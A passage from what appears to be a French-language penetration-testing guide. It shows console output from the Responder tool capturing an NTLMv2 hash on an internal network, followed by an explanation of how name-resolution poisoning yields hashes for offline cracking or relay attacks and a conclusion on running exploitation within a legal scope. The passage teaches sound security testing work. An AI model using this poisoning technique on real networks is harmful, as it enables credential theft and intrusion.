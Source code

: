 ```
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.1.5]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-RESPONDER]
    Responder Domain Name      [WORKGROUP]
    Responder DCE-RPC Port     [47806]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 192.168.1.101
[SMB] NTLMv2-SSP Username : WORKSTATION\john
[SMB] NTLMv2-SSP Hash     : john::WORKSTATION:1122334455667788:A1B2C3D4E5F6A1B2C3D4E5F6A1B2C3D4:0101000000000000C0653150DE09D201...
```

**Analyse :** Cette commande utilise l'outil Responder pour empoisonner les réponses aux requêtes de résolution de noms sur le réseau interne. Lorsqu'un utilisateur tente d'accéder à une ressource inexistante, Responder répond en se faisant passer pour cette ressource et capture les hachages d'authentification NTLM. Dans cet exemple, l'outil a capturé le hachage NTLMv2 de l'utilisateur "john", qui peut ensuite être craqué hors ligne ou utilisé dans une attaque de relais NTLM. Cette technique est particulièrement efficace dans les environnements internes où la confiance entre les systèmes est élevée.

### Conclusion

La phase d'exploitation est l'étape où les vulnérabilités identifiées lors des phases précédentes sont activement exploitées pour obtenir un accès non autorisé aux systèmes cibles. Cette phase permet de valider concrètement l'existence des vulnérabilités et d'évaluer leur impact réel sur la sécurité de l'organisation.

Une exploitation méthodique et documentée fournit des preuves tangibles des risques de sécurité et aide à prioriser les efforts de remédiation. Cependant, il est essentiel de mener cette phase avec prudence et professionnalisme, en respectant strictement le cadre légal défini pour le test d'intrusion et en minimisant les risques de perturbation des systèmes cibles.
# 4. Post-Exploitation
